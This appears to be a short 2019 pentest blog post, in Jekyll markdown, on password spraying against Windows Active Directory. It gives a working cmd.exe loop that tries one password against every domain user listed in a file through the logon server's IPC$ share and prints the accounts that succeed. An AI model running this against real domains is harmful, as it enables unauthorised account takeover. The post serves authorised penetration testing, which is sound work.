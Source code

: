 ```yaml
---
layout: single
classes: wide
author_profile: true
read_time: true
share: true
related: true
title:  "Internal Infrastructure Pentest - Password Spraying With CMD"
date:   2019-06-22 15:49:00 +1000
categories:
  - Internal Pentest
  - Internal Infrastructure Pentest
  - Network Pentest
tags:
  - Password
  - Password Spraying
  - Spraying
  - Intial Foothold
  - Windows Security
  - Hash Cracking
  - Active Directory Hacking
---
```



- Password Spraying: It is a technique of trying one password across all the domain users. 
<pre>
- No tool needed. One can perform password spraing using cmd.exe
  - net use %LOGONSERVER%\IPC$ /delete
  - set PASSWORD=Password1
  - FOR /F %n in (Documents\users.txt) DO @((net use %LOGONSERVER%\IPC$ /user:%USERDOMAIN%\%n %PASSWORD%
    1>NUL 2>&1 && echo. && echo [*] %n:%PASSWORD% && net use /delete %LOGONSERVER%\IPC$  > NUL) || < set /p =.)
    
    
   <b> Thanks to : Black Hills Information Security (https://www.blackhillsinfosec.com/) </b>
</pre>
